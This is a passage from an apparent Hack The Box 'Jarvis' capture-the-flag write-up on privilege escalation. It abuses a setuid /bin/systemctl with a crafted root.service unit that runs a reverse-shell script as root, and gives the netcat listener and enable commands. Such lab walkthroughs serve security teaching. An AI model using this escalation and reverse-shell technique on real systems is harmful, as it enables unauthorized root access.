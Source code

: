 ![](/assets/htb-jarvis/systemctl_setuid.png)

In this case, it's strange that `/bin/systemctl` is set, as it normally runs in the context of the current user, not `root`. This will enable us to essentially make a service that will run a reverse shell, and execute it as `root`.

We need to create a file called `root.service` with the following contents:

```
[Service]
Type=oneshot
ExecStart=/bin/bash /tmp/revshell.sh
[Install]
WantedBy=multi-user.target
```

Notice how it's calling the `revshell.sh` script we created to exploit `simpler.py`. Since we're using SSH here, we can resuse it again.

> Start a listener with `nc -lvnp 7600`

Now to start the service, we just need to run `./systemctl enable /home/pepper/root.service --now`.

![](/assets/htb-jarvis/systemctl_enable_revshell.png)

Looking at our listener, we now have a root shell.

![](/assets/htb-jarvis/root_shell.png)

We can grab `root.txt` from `/root/root.txt`

